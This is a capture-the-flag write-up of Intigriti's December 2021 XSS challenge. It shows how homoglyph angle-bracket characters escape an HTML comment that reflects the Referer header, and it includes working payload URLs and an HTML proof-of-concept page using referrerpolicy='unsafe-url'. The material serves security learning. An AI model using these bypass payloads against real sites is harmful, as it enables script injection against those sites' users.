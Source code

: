 ```yaml
---
title:      Intigriti - XSS Challenge 1221
author:     Bruno Halltari
date:       2021-12-27 16:09:00
summary:    Homoglyph XSS
categories: Intigriti web exploitation
tags:
 - Intigriti
 - Web Exploitation
 
---
```


## Let's start
The challenge comes with an input field and a parameter called " Stay open " to avoid repeating an animation, first of all I tried to insert a simple payload like `<script>alert(document.domain)</script>` to understand where the starting point was.
```html

<h4 id="punchline">Result:  alert(document.domain) 
 <!-- Referer: https://challenge-1221.intigriti.io/challenge/index.php?payload= &gt;script&lt;alert(document.domain)&gt;/script&lt;&open=on -->
</h4>

```

From the source, you can see two pieces of information, first of all the content is reflected inside an html comment.
This is really important because with a simple payload like ` --><script>alert(document.domain)</script>` we can escape from the comment and execute our xss payload, 
but there is a problem, as you can see from the screen  the characters `<` and `>` are encoded.

At this point I tried to think of various bypasses until I came up with an idea based on a previously played ctf.

## Homoglyph characters
Homoglyph are character that look alike but are not the same, so it's possible to use characters that looks the same but are interpreted 
differently from the server.
this is really important because we can use this type of characters to bypass the control on `<` and `>`

Here you can find some examples: https://github.com/codebox/homoglyph/blob/master/raw_data/chars.txt


## Final Payload

To build the final payload I simply used Homoglyph characters regarding the `<` and the `>`, in this way I was able to close the html comment and escape in order to execute XSS.

`https://challenge-1221.intigriti.io/challenge/index.php?payload=--%EF%B9%A5%EF%B9%A4script%EF%B9%A5alert(document.domain)%EF%B9%A4/script%EF%B9%A5`

To be sure, I url encoded the whole payload.

`https://challenge-1221.intigriti.io/challenge/index.php?payload=--%EF%B9%A5%EF%B9%A4script%EF%B9%A5alert(document.domain)%EF%B9%A4/script%EF%B9%A5`

Just to be clear, clicking the link will not execute the xss, but you will need to enter ` --﹥﹤script﹥alert(document.domain)﹤/script﹥  ` inside the input field ( we will see after how to not make this case a self-xss )

```html
<h4 id="punchline">Result: xss
<!-- Referer: https://painreigns.github.io/xmasxss.html?payload=--><script>alert(document.domain)</script>
"-->"
</h4>

```


As you can see, I was able to get out of the Html comment, and execute my payload.


## Final Poc

Now that we know how to execute the xss it's not over, in fact the scenario described is that of a Self-XSS, which is no good.
To avoid this problem, I wrote this simple POC:

```html

<html>
  <body>
    <a href="https://challenge-1221.intigriti.io/challenge/index.php?payload=xss" referrerpolicy="unsafe-url">Click here </a>
  </body>
</html>


```

The only interesting part is the `referrerpolicy="unsafe-url"` parameter that is needed to send the origin, path, and query string when performing any request, regardless of security.
This means that this policy will leak potentially-private information (in this case our payload) from HTTPS resource URLs to insecure origins, without this parameter it would not be possible to populate the referrer header from an external origin and execute XSS.


The last step is to host our code and insert the payload described above in the url:

`https://mydomain/xmasxss.html?payload=--%EF%B9%A5%EF%B9%A4script%EF%B9%A5alert(document.domain)%EF%B9%A4/script%EF%B9%A5`

